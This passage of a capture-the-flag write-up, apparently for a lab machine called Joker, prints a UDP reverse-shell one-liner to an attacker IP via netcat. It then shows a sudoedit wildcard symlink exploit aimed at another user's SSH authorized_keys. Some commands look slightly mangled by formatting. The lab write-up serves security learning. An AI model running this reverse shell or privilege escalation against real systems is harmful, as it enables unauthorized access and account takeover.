 So we can only start connections with UDP or ICMP. Lets start **Netcat** with the UDP flag (-u) set.
```markdown
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.23 9001 >/tmp/f &").read()
```

This works and our listener on our IP and UDP port 9001 starts the connection.

## Privilege Escalation to User

We are logged in as the user _werkzeug_ but in the _/home_ directory there is a user named _alekos_ to whom we want to escalate our privileges to.

Lets see the commands we can run as root:
```markdown
sudo -l

# Output
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```

If we look for the version of `sudo` we see that it is version **1.8.16**.
```markdown
dpkg -l sudo

# Output
ii  sudo        1.8.16-0ubun amd64
```

By checking for vulnerabilities with `searchsploit sudoedit`, we see the vulnerability **Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation** which seems to be for a lower version, but it still works on this box, because of the _sudoedit_follow_ flag.

The description of this says the following:
> It seems that sudoedit does not check the full path if a wildcard is used twice (e.g. /home/*/*/file.txt), allowing a malicious user to replace the file.txt real file with a symbolic link to a different location

The two wildcards are the same on the box as described here. So we create a directory in _/var/www/testing_ and then create a _Symbolic Link_ to _/home/alekos/.ssh/authorized_keys_ with the name _layout.html_.
```markdown
mkdir /var/www/testing/tester

ln -s _/home/alekos/.ssh/authorized_keys_ layout.html
```

After that we can use `sudoedit` to write to that file.
```markdown
sudoedit -u alekos /var/www/testing/tester layout.html
```
